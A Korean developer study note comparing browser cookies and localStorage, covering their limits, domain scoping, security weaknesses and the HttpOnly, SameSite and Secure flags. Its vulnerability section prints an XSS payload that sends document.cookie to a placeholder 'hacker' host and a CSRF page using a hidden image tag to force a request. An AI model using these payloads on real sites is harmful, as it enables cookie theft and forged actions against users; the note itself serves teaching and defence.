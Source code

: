 # 쿠키? 로컬스토리지?

## 🍪 쿠키

- 개념
  : 사용자의 웹 브라우저에 저장되는 작은 기록 정보 파일

  - 최대 4KB를 가진 매우 작은 양의 데이터로, 방문한 페이지를 저장하거나 유저의 `로그인 정보`를 저장하는 등 다양한 방법으로 사용됨.
  - 문자열(text)만 저장이 가능하다는 제한이 있음.
  - (key, value) 형태로 저장되어 있음.
  - 브라우저 전용 쿠키 저장소에 저장됨.

- 쿠키는 왜 사용하는걸까?

  - 사용자 경험을 높여주기 위해
  - HTTP의 stateless을 보완하기 위해 등장했음.
  - 쿠키를 활용해서 `서버`는 사용자의 브라우저에 데이터를 넣을 수 있음.
  - 반복적인 인증(stateless하기 때문에 서버는 클라이언트가 누구인지 계속 인증을 해주어야 하기 때문)을 피해 사용자 편의를 위한 기능을 제공하기 위해서 사용함.
  - 쿠키는 자동으로 모든 요청에 함께 담겨서 날아간다.

- 특징

  1. 쿠키는 브라우저 단위로 생성됨.
  2. 쿠키는 도메인에 따라 제한이 됨. `ex) youtube에서 생성한 쿠키는 youtube에만 보내짐.`

- 쿠키의 취약점

  1. XSS(Cross Site Scripting)
      - 사용자 브라우저에 스크립트를 실행시켜 정보를 탈취하거나 조작
      - `http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>`

  2. CSRF(Cross-Site Request Forgey)
      - 인증된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹 사이트에 요청하게 하는 공격
      ```
        <html>
          <head>
            <meta charset="UTF-8">
            <title>Attacker Site</title>
          </head>
          <body>
           <div id="wrap">
            <h1>악성 페이지 - 숨겨진 이미지 태그</h1>
            <img src="http://domain/change?name=hahahahahahkikikikiki" style="width: 0px; height: 0px;"/>
            </div>
          </body>
        </html>
        ```
        - 사용자의 이름을 `hahahahahahkikikikiki`라고 바꾸라는 요청을 날리게 되고 그럴 때 이 쿠키에 아무런 조치가 되어있지 않다면 브라우저는 이 주소에 대해 쿠키가 존재할 경우 쿠키를 그대로 같이 전송해 날려버리고,
        서버 입장에선 "쿠키가 있네? 인증해보니 맞네? 알았어 바꿔줄게" 하면서 사용자 정보를 바꿔버리게 되는 것이다.
  3. 스니핑
      - 패킷을 가로채 정보 도청 가능

- 어떻게 보안을 강화할 수 있을까?

  1. HTTP Only : JS를 통한 쿠키에 접근을 제한함.
  2. SameSite: 외부 서비스에서 우리 서비스의 데이터를 변경하는 요청을 보내지 못하게 만듦.
  3. Secure: HTTPS 연결을 통해서만 전송됨. 즉, 암호화 되어 전송

  ### 궁금증

  ```
  Q) youtube에서 생성한 쿠키는 youtube에만 보내진다고 했는데 그럼 CSRF에 안전한거 아닌가? 왜 SameSite설정을 해줘야하지?

  A) 쿠키에서 CSRF공격이 취약한 것은 쿠키에 담긴 액세스를 탈취해오기 때문이 아니라 통신 시 쿠키가 자동으로 서버로 같이 넘어가기 때문에 이를 통해 서버의 민감한 정보를 수정할 수 있기 때문임. 기본 설정은 `Lax`로 일부 예외(`HTTP GET method/a href/link href`)에서는 CSRF가 발생할 가능성이 있음. 그렇기 때문에 strict를 사용하는 것을 권장한다고 함.
  ```

## 🖥 로컬스토리지

- 클라이언트측에서 데이터를 저장하는데 사용됨.
- 5MB이상의 데이터를 저장할 수 있어 비교적 큰 데이터도 저장가능
- 사용자의 브라우저에 데이터를 저장하는 방법 중 하나
- 웹 스토리지 DB에 저장됨.ㅡㅜ,.

- 쿠키와 다른 점이 뭘까?
  1. 모든 HTTP요청에 데이터를 주고 받을 필요가 없음.
  2. 문자열 뿐만 아니라 object도 저장이 가능함.
  3. 영구저장(수동 삭제 필요, 하지만 이는 쿠키에 만료시간이 있다고 가정했을 경우)

- 특징
  - 로컬스토리지 또한 도메인별로 저장됨.

- 로컬스토리지의 취약점
  - XSS 공격에 취약함.
  - 암호화가 되지 않음.
  - => 저장된 데이터의 위협 수준이 매우 낮아야 함.

- 로컬스토리지에는 주로 어떤 데이터가 저장이 될까?
  - 언어 설정
  - 팝업 설정 정보(ex. 일주일간 보지 않기)

### 궁금증

```
Q) 언어 설정과 팝업 설정 정보와 같은 데이터는 쿠키에 저장해도 되는거 아닌가?
A) 쿠키에 저장해도 무방하다. 하지만 쿠키의 저장소는 로컬스토리지보다 작으며 쿠키는 모든 HTTP요청에 포함되어 가므로 HTTP요청에 필요한 내용이 아니라면? 로컬스토리이지에 넣는 것이 좋을 것 같다.
```

## 결론
  - 데이터 전달 방식: 쿠키는 HTTP요청에 자동으로 포함되지만 로컬 스토리지는 임의로 포함해야 포함됨.
  - 생성 장소: 쿠키는 서버에서 생성, 로컬스토리지에는 클라이언트측에서 저장, 생성
  - 브라우저 정책: 쿠키는 개인정보 보호 모드 시 자동 차단, 로컬스토리지는 동일 도메인에서 항상 접근 가능


---

[쿠키의 SameSite 설명1](https://web.dev/articles/samesite-cookies-explained?hl=ko) <br/>
[쿠키의 SameSite 설명2](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) <br/>
[노마드 코더:세선 vs 토큰 vs 쿠키](https://www.youtube.com/watch?v=tosLBcAX1vk&t=39s)